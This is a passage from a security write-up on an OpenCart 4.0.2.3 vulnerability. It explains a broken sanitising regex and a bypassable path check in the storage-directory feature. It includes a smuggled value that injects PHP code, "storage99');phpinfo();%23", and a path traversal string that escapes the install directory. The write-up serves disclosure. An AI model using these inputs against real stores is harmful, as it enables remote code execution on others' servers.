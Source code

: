 ```php
                $file = fopen($file, "w");
                fwrite($file, $output);
                fclose($file);
            }
            // ...
        }
    }
}
```
At `[1]` and `[2]`, the new storage directory's name and path are obtained from the incoming HTTP GET request and stored into `$name` and `$path` PHP variables. In both cases, a regex is applied in order to remove special untrusted characters, however, the regex is badly implemented and so does nothing. Furthermore, the `basename()` [^basename] function is used on the supplied `name` parameter, preventing us from using the `/` character inside it.

[^basename]: [`basename`](https://www.php.net/manual/en/function.basename.php), php.net

```php
$foo = "storage99');phpinfo();%23";
$name = preg_replace('[^a-zA-z0-9_]', '', basename(html_entity_decode(trim($foo), ENT_QUOTES, 'UTF-8')));

print($name); // storage99');phpinfo();%23
print("\n\n");

$name = preg_replace('/[^a-zA-z0-9_]/', '', basename(html_entity_decode(trim($foo), ENT_QUOTES, 'UTF-8')));

print($name); // storage99phpinfo23
print("\n\n");
```
At `[3]`, after having verified the authenticated user has the write privilege for `common/security`, some checks are performed on `$base_new` (which is the concatenation of `$name` and `$path`). Here the application checks that `$base_new` is located inside the OpenCart's installation folder, but the check is not well performed and (if required) can be bypassed using a path traversal:

```php
<?php

$root = str_replace('\\', '/', realpath('$this->request->server["DOCUMENT_ROOT"]' . '/../'));
print($root . "\n\n"); // /home/kali/Projects/OpenCart/4.0.2.3/

$base_new = '/dev/shm/new-folder'; // result -> Error!
$base_new = '/home/kali/Projects/new-folder'; // result -> Error!
$base_new = '/dev/shm/new-folder'; // result -> Error!
$base_new = '/home/kali/Projects/OpenCart/new-folder';  // result -> Error!
$base_new = '/home/kali/Projects/OpenCart/4.0.2.3/new-folder';  // result -> Accepted!
$base_new = '/home/kali/Projects/OpenCart/4.0.2.3/../../../../../../../../dev/shm/new-folder'; // result -> Accepted!

if ((substr($base_new, 0, strlen($root)) != $root) || ($root == $base_new)) {
  print("Error!");
}else{
  print("Accepted!");
}
?>
```


[^3763]: [CVE-2011-3763](https://nvd.nist.gov/vuln/detail/CVE-2011-3763), nvd.nist.gov
[^1891]: [CVE-2013-1891](https://security.snyk.io/vuln/SNYK-PHP-OPENCARTOPENCART-2935892), security.snyk.io